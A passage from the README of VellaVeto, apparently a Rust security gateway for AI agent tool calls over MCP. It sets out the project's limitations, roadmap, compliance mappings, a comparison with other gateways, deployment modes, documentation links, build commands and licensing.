  on a vulnerability, and **Supply Chain Audit (cargo-vet)** fails on an unvetted version.
  Neither carries an `if:` condition. So an advisory *introduced by a change* — a dependency
  bump that pulls in a vulnerable crate — fails CI on the pull request and again on the
  merge commit. It does not sit for a week.

  What the schedule alone catches is the other case: an advisory **published against code
  that has not changed**. No push happens, so nothing re-runs until the next scheduled job,
  and this repository's scheduled workflows fire 7–8 hours after their declared cron.
  `RUSTSEC-2026-0600` (`kube-client`) is a worked example — published after the last merge,
  so the daily `dependency-monitor` was what turned red, roughly a day later.

  Also corrected: the claim that all four gates run on pull requests. `dependency-monitor`
  has **no `pull_request` trigger at all** (`schedule` and `workflow_dispatch` only), and
  `supply-chain-scan`'s pull-request trigger is **path-filtered** to lockfiles, manifests
  and workflow files. On pull requests the advisory coverage comes from `RustSec Audit`,
  `Security Audit`, `cargo-deny policy checks` and `Supply Chain Audit (cargo-vet)` — which
  is why adding `dependency-monitor` to pull requests would mostly duplicate work already
  done; its unique steps there are the duplicate-dependency baseline and the combined
  five-step verdict.
- **Advisories in build and test dependencies are reported, not blocked.**
  `supply-chain-scan` covers the ecosystems cargo does not reach — six npm projects, two Go
  modules, the pinned Python requirements, the Java SDK and the GitHub Actions pinned across
  all workflows — but it fails only on findings
  reachable from a production install. Dev-only findings are listed and counted without
  gating, because they cannot reach a deployed artifact and blocking on eslint and jest
  transitives would stop unrelated work. A compromised build host is still a real
  supply-chain risk, so the count is not zero and is not meant to be read as zero. The
  classification comes from each lockfile's own dependency groups and is recomputed every
  run, so a package that moves into production starts blocking without anyone remembering
  to change a list.
- **Unmaintained dependencies are reported, not blocked.** `cargo audit` lists them under
  `warnings`, which do not affect its exit status; `deny.toml` sets
  `unmaintained = "none"` so cargo-deny does not duplicate the class; and
  `security-audit.yml` denies `unsound` and `yanked` but not `unmaintained`. The monitor prints
  the kinds and counts on every run, so they are visible rather than silent, but they do
  not fail CI. One instance today: `chrono` (RUSTSEC-2026-0543), which has no fixed
  version — 0.4.45 is the latest release — and is on the [Roadmap](#roadmap) to replace.
  Vulnerabilities, unsoundness and yanked releases all still block.
- **The monitoring has had a blind spot on its own failure path.** From 2026-10-13 the
  dependency monitor reported 17 real RustSec advisories as *"advisory posture UNKNOWN"* for
  three weeks: its verdict parser matched plain text, while cargo-deny emits a
  colour-escaped verdict under CI. Separately, the `zk-audit` opt-in guard could not fail at
  all — `rg` was not installed on the runner, *and* its pattern matched nothing even when the
  condition held. Both were found by reading job logs rather than trusting green check marks,
  and both were fixed on 2026-11-05 with a regression test that feeds the classifier real
  coloured bytes. The fix is confirmed in production. The general lesson applies to every
  badge above: a green check is a claim about a check, not about the code.

### Feature and platform scope

- **No Windows target.** Release binaries cover Linux (x86_64, aarch64, musl) and macOS
  (x86_64, aarch64); CI runs on Linux. See [Platform support](#consumer-shield--protect-users-from-ai-providers).
- **PII detection is seven US-centric patterns**, with no file paths and no personal names —
  see [Scope of PII detection](#consumer-shield--protect-users-from-ai-providers).
- **Warrant canary is verification only.** Issuance and publication are not shipped and no
  canary has been published.
- **Traffic padding is not wired.** Its framing needs peer negotiation.
- **Post-quantum signatures are partial.** Hybrid Ed25519 + ML-DSA-65 covers audit
  checkpoints and rotation manifests, not evidence packs, warrant canaries, agent cards, or
  capability tokens.
- **DPoP is scoped to the HTTP proxy's OAuth path**, not every transport.
- **A2A Agent Card signature enforcement runs on the A2A listener only.** The stdio relay
  does not verify cards, and the `a2a` feature is off by default.
- **`schema_poisoning` defaults to `false`**, which is why MCPSEC A14.1–A14.4 fail against the
  shipped `vault` preset rather than indicating a missing capability.
- **Signed checkpoints are opt-in and need a persistent key.** Without
  `VELLAVETO_SIGNING_KEY` a fresh key is generated per process and checkpoints do not survive
  a restart. Signatures attest authorship, not time.

### Maturity

- **New project.** No production deployments we can point to, and effectively no external
  community yet. The [comparison table](#how-it-compares) is explicit that stars and
  institutional backing are where the alternatives lead.

## Roadmap

What is not built yet, grouped by the kind of gap. No dates — a date is the next thing to
go stale. [ROADMAP.md](ROADMAP.md) carries the phase-level execution detail.

### Promote advisory detection to enforcement

The largest item, because it is the one that changes what the product *guarantees* rather
than what it observes. Around 30 detection modules currently scan, audit, and allow. Each
needs a config gate, a denial path, parity across stdio/HTTP/WebSocket/gRPC, and tests
before it can honestly be called enforcement. Until then they are observability. See
[Limitations](#limitations).

Four are done: denial-of-wallet, jailbreak patterns, token/credential leakage and
memory-query poisoning have a config gate, a denial path, behaviour tests, and now run on
**all four transports** — stdio, HTTP, WebSocket and gRPC. Each of those scanners
previously had exactly one call site in the whole workspace, so the other three transports
did not merely fail to block them, they never ran them; turning a gate on bought
enforcement on one transport out of four. That is closed. They still ship **off by
default** (see [Limitations](#limitations)), so a stock install detects and forwards; what
changed is that setting a gate now applies everywhere a tool call is mediated.

The remaining ~26 modules are the rest of this item. Per-transport coverage for every
check is tracked in [docs/BOUNDARY_INVENTORY.md](docs/BOUNDARY_INVENTORY.md) Section 7.

### Independent assurance

| Gap | Why it matters |
|---|---|
| Third-party security audit | Everything today is self-assessed. [OSTIF scope](docs/OSTIF_AUDIT_SCOPE.md) is an application, not a completed audit. |
| First-party `cargo-vet` audits | 650 exemptions against an empty `audits.toml` means no dependency has been reviewed — the gate detects change, it does not vet. |
| A third-party gateway benchmarked on MCPSEC | We wrote the benchmark and the gateway. A number for someone else's gateway is what would make it a comparison. |

### Coverage

| Gap | Current state |
|---|---|
| Windows target | Not built or tested; POSIX-only env allowlist, `0o600` hardening is a Unix no-op. |
| Non-US PII patterns | Seven US-centric patterns. No IBAN, NHS number, EU national ID, passport, or non-US phone. |
| File paths and personal names | Not detected at all. |
| Traffic padding | Implemented but not wired — the framing needs peer negotiation. |
| PQC signatures | Hybrid Ed25519 + ML-DSA-65 covers audit checkpoints and rotation manifests only; not evidence packs, canaries, agent cards, or capability tokens. |
| DPoP | HTTP proxy OAuth path only, not every transport. |
| A2A card verification | A2A listener only; the stdio relay does not verify Agent Cards, and `a2a` is off by default. |
| Warrant canary issuance | Verification ships; issuance and publication do not, and none is published. |

### CI and supply chain

| Gap | Why it matters |
|---|---|
| Migrate off `chrono` | RUSTSEC-2026-0543 marks it unmaintained, with no fixed version — 0.4.45 is the latest release. It is a direct workspace dependency of ten crates plus transitive via `sqlx-core`, so replacing it with `time` or `jiff` is a real refactor. Reported as a non-blocking warning meanwhile. |
| Count drift guards for the remaining docs | `docs/FORMAL_SCOPE.md` and `docs/SECURITY_REVIEW.md` still restate totals by hand; only the README's generated block is CI-enforced. |

### Product phases

Phase 2 (policy, approval and operator productization) is active. Phase 3 — multi-agent
and advanced containment, the case where single-agent mediation is easiest to route
around — has not started. Both are detailed in [ROADMAP.md](ROADMAP.md).

### Compliance & Regulatory Frameworks

VellaVeto maps runtime security controls to **12 regulatory and industry frameworks** — the only MCP gateway with built-in compliance evidence generation. Each framework has a dedicated Rust registry that maps VellaVeto capabilities to specific articles, clauses, or controls, with coverage reports and evidence packs for regulated frameworks.

**Regulatory:** EU AI Act (Art 9/10/12/14/50), NIS2 (Art 21-23 with 24h/72h/1M incident timelines), DORA (Ch II/III/V for financial ICT resilience), ISO 42001 (AI management system)

**Trust & Certification:** SOC 2 Type II (CC1-CC9 with automated CC6 access reviews), NIST AI 600-1 (12 GenAI risk areas)

**Threat & Security:** OWASP Top 10 Agentic (ASI01-ASI10), OWASP MCP Top 10 (MCP01-MCP10), CoSAI (38/38 controls), Adversa TOP 25 (25/25), CSA Agentic Trust Framework, Singapore MGF

**Cross-regulation incident reporting** maps a single security incident to the notification timelines of every applicable framework (NIS2 24h pre-notification, DORA classification, EU AI Act Art 62 obligations). **10-framework gap analysis** provides a consolidated coverage report with priority-ranked remediation guidance.

Full details: [Compliance Guide](docs/COMPLIANCE.md) | [Website: vellaveto.online/compliance](https://vellaveto.online/compliance)

## How It Compares

| | **VellaVeto** | **AgentGateway** | **MCP-Scan (Snyk)** | **Lasso Gateway** |
|---|---|---|---|---|
| **Language** | Rust | Rust | Python | Python |
| **Backing** | Independent | Linux Foundation / Solo.io | Snyk (acquired Invariant Labs) | Lasso Security (~$28M raised) |
| **Stars** | New | ~1,800 | ~1,700 | ~349 |
| **Primary role** | Agent interaction firewall (runtime boundary) | Connectivity proxy / gateway | Scanner + monitor | Security gateway (plugin-based) |
| **Evaluation latency** | <5ms P99 | Not published | N/A (scan-time) | Not published |
| **Policy engine** | Glob/regex/domain, ABAC, Cedar, Wasm plugins, time windows, call sequences | OPA / OpenFGA / CEL | Guardrailing policies | Plugin-based guardrails |
| **Injection detection** | 20+ layers (Aho-Corasick, NFKC, ROT13, base64, math symbols, leetspeak, emoji smuggling, FlipAttack, memory poisoning, schema poisoning, ...) | AI Prompt Guard (LLM-based) | Tool description scanning + LLM judges | Guardrail plugins |
| **DLP** | 5-layer decode + credential patterns | PII pattern masking | Secrets scanning | Presidio plugin |
| **Transport coverage** | HTTP, WebSocket, gRPC, stdio, SSE (verified parity) | MCP + A2A | MCP (stdio + proxy) | MCP (stdio, SSE) |
| **Audit trail** | SHA-256 chain + Merkle + Ed25519 + ZK proofs + PostgreSQL | Observability hooks | Logging | Logging |
| **Compliance** | 12 frameworks (EU AI Act, SOC 2, DORA, NIS2, ...) | None | None | None |
| **Formal verification** | TLA+, Lean 4, Coq, Alloy, Kani, Verus | None | None | None |
| **Channel separation** | Source-class tainting, intent scope, behavioral sequence analysis | None | None | None |
| **Consumer privacy** | PII sanitization, session isolation, credential vault, stylometric resistance | None | None | PII scanning (Presidio) |
| **Enterprise IAM** | OIDC, SAML, RBAC, SCIM, DPoP | None | None | None |
| **Response attestation** | HMAC-SHA256 content-bound scan results | None | None | None |
| **Ease of setup** | `--protect shield` (one flag) / Docker / Helm | Docker / binary | `pip install` | `pip install` |
| **License** | MPL-2.0 / Apache-2.0 / BUSL-1.1 | Apache-2.0 | Apache-2.0 | MIT |

**Trade-offs:** AgentGateway and MCP-Scan have strong institutional backing (Linux Foundation, Snyk) and larger communities. AgentGateway excels as a connectivity and observability layer with external policy engine integration (OPA, OpenFGA); MCP-Scan excels at scanning MCP server configurations and now includes a runtime proxy mode. Both have solid security features. Lasso Gateway and [PipeLock](https://github.com/luckyPipewrench/pipelock) (Go, single binary) are closer in scope but lighter on depth. VellaVeto differentiates as a runtime boundary enforcer: integrated policy evaluation (<5ms P99), structured ACIS decision envelopes on every verdict, multi-transport parity, session isolation as a product invariant, compliance evidence, and formal verification of boundary properties. The table above is our honest best-effort comparison — we encourage you to evaluate each tool against your own requirements.

## Deployment Modes

| Mode | Command | Use Case |
|---|---|---|
| HTTP API Server | `vellaveto serve` | Dashboard, REST API, policy management |
| MCP Stdio Proxy | `vellaveto-proxy` | Claude Desktop, local MCP servers |
| HTTP Reverse Proxy | `vellaveto-http-proxy` | Deployed MCP servers, SSE/Streamable HTTP |
| WebSocket Proxy | `vellaveto-http-proxy` | Bidirectional MCP-over-WS at `/mcp/ws` |
| gRPC Proxy | `vellaveto-http-proxy --grpc` | High-throughput, protobuf-native (feature-gated) |
| Consumer Shield | `vellaveto-shield` | User-side PII protection |
| Desktop App | `vellaveto-desktop` | One-click protection for Claude/Cursor/Windsurf/VS Code |

See [docs/DEPLOYMENT.md](docs/DEPLOYMENT.md) for configuration details.

## Documentation

### Getting Started

| Document | Description |
|---|---|
| [Quick Start](docs/QUICKSTART.md) | Framework integration guides (Anthropic, OpenAI, LangChain, LangGraph, MCP) |
| [15-Minute Secure Start](docs/SECURE_QUICKSTART_15_MIN.md) | End-to-end deny-by-default walkthrough with audit verification |
| [Policy Configuration](docs/POLICY.md) | Policy syntax, operators, presets, elicitation, sampling, DLP, tool quotas, secret substitution |
| [CLI Reference](docs/CLI.md) | All binaries and commands |
| [Environment Variables](docs/ENV.md) | Configuration via environment |

### Security & Compliance

| Document | Description |
|---|---|
| [Security Guarantees](docs/SECURITY_GUARANTEES.md) | Normative, falsifiable security contract |
| [Threat Model](docs/THREAT_MODEL.md) | Trust boundaries, attack surfaces, mitigations |
| [Assurance Case](docs/ASSURANCE_CASE.md) | Claim -> evidence -> reproduce map |
| [ACIS Contract](docs/ACIS_CONTRACT.md) | Decision envelope structure, builder selection, transport parity |
| [Boundary Inventory](docs/BOUNDARY_INVENTORY.md) | Transport interception surface map (E1-3) |
| [Channel Separation](docs/CHANNEL_SEPARATION.md) | Three-layer structural defense against control/data channel conflation |
| [Security Hardening](docs/SECURITY.md) | Security configuration best practices |
| [Quantum Migration](docs/quantum-migration.md) | PQC rollout and rollback gates |

### Operations & Architecture

| Document | Description |
|---|---|
| [Deployment Guide](docs/DEPLOYMENT.md) | Docker, Kubernetes (Helm), bare metal |
| [Operations Runbook](docs/OPERATIONS.md) | Monitoring, troubleshooting, maintenance |
| [API Reference](docs/API.md) | HTTP API surface, route groups, and request/response examples |
| [Audit Log](docs/AUDIT_LOG.md) | Audit system internals, verification, SIEM export |
| [IAM](docs/IAM.md) | OIDC, SAML, RBAC, session management |
| [Benchmarks](docs/BENCHMARKS.md) | Reproducible performance benchmarks |
| [Evaluation Traces](docs/AUDIT_LOG.md) | Decision explainability and execution graphs |

### SDKs

| SDK | Path | Tests |
|---|---|---|
| Python (sync + async, LangChain, LangGraph, CrewAI, Google ADK, OpenAI Agents, Composio, Claude Agent, Strands, MS Agents) | [sdk/python/](sdk/python/) | 484 |
| TypeScript | [sdk/typescript/](sdk/typescript/) | 122 |
| Go | [sdk/go/](sdk/go/) | 129 |
| Java | [sdk/java/](sdk/java/) | 120 |

## Development

```bash
# Build
cargo build --release

# Test
cargo test --workspace

# Lint
cargo clippy --workspace --all-targets

# Format
cargo fmt --check

# Security audit
cargo audit

# Benchmarks
cargo bench --workspace

# Fuzz (requires nightly)
cd fuzz && cargo +nightly fuzz run fuzz_json_rpc_framing -- -max_total_time=60
```

See [CONTRIBUTING.md](CONTRIBUTING.md) for development rules and commit format.

### CI Policy Validation

Validate your policy config in GitHub Actions:

```yaml
- uses: paolovella/vellaveto/.github/actions/policy-check@main
  with:
    config: vellaveto.toml
    strict: true
```

## License

| Tier | License | Crates |
|---|---|---|
| Core + Consumer | MPL-2.0 | types, engine, audit, config, canonical, discovery, approval, proxy, mcp-shield, shield |
| Canary + Benchmark | Apache-2.0 | canary, mcpsec |
| Enterprise | BUSL-1.1 → MPL-2.0 | server, http-proxy, mcp, cluster, operator, integration |

Enterprise crates are free for production use at ≤3 nodes / ≤25 endpoints. Each version converts to MPL-2.0 after 3 years. See [LICENSING.md](LICENSING.md) for full details. For managed service offerings or above-threshold deployments, contact **hello@vellaveto.online**.

## References

- [MCP Specification 2025-11-25](https://modelcontextprotocol.io/specification/2025-11-25)
- [OWASP Top 10 for Agentic Applications 2026](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/)
- [OWASP Top 10 for MCP Servers](https://owasp.org/www-project-top-10-for-mcp-servers/)
- [CoSAI MCP Security Whitepaper](https://www.coalitionforsafeai.org/)
- [ETDI: Mitigating Tool Squatting and Rug Pull Attacks in MCP](https://arxiv.org/abs/2506.01333)
- [Enterprise-Grade Security for MCP](https://arxiv.org/pdf/2504.08623)
- [MCP Security Vulnerabilities — Practical DevSecOps](https://www.practical-devsecops.com/mcp-security-vulnerabilities/)
